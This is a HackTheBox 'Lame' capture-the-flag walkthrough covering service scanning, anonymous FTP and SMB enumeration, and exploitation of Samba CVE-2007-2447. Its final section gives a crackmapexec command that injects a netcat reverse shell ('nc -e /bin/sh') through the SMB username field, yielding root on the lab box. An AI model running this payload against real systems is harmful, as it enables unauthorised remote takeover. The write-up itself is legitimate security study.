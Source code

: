 ```yaml
---
title: HTB | Lame
author: Zeropio
date: 2022-12-23
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/lame
image:
  path: /assets/img/hackthebox/card/Lame.png
  width: 800
  height: 500
---
```


# Fingerprint

## Scan
With the scan we can get the following open ports:
```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### FTP
A critical [CVE](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) associated with this version can be found. Also, the **anonymous** login is enable:
```console
$ ftp anonymous@10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Everything can be download with the following command:
```bash
wget -m --no-passive ftp://anonymous@10.10.10.3
```

The FTP server seems to be empty.


### SSH
This version of SSH is vulnerable to an enumeration of user:password. But the server only allow RSA key login.

### SMB
A severe [CVE](https://www.cvedetails.com/cve/CVE-2012-1182/) is found for this one. Searching for it doesn't give any success. We downloaded the [nse file](https://svn.nmap.org/nmap/scripts/samba-vuln-cve-2012-1182.nse) and tried it:
```bash
nmap -p445 --script samba-vuln-cve-2012-1182.nse -Pn 10.10.10.3
nmap -p139 --script samba-vuln-cve-2012-1182.nse -Pn 10.10.10.3
```

But the allowed folders can be enumerated:
```console
$ smbclient -N -L \\\\10.10.10.3\\  
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
        ```

### distccd
On the other hand, searching for this vulnerability came to many payloads. Running the following [nse](https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse) against the target show it is vulnerable:
```console
$ nmap -p3632 --script distcc-cve2004-2687.nse -Pn 10.10.10.3

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://nvd.nist.gov/vuln/detail/CVE-2004-2687
```


 
---

# Footprint

## Initial Access
The SMB server can be access without credentials:
```bash
smbclient -N \\\\10.10.10.3\\tmp
```

We know that is a vulnerable version, for example this [CVE](https://nvd.nist.gov/vuln/detail/CVE-2007-2447). We found a exploit for metasploit, where refers to a username injection like:
```
username = "/=`nohup " + payload.encoded + "`"
```

We can try this by ourselves.

## Privilege Escalation
With CrackMapExec we can send logins attemps. Openning a netcat listener and sending the following command:
```bash
crackmapexec smb 10.10.10.3 -u './=`nohup nc -e /bin/sh 10.10.14.3 80`' -p ''
```

Will give us the root reverse shell:
```console
$ sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.3] 40648
whoami
root
```

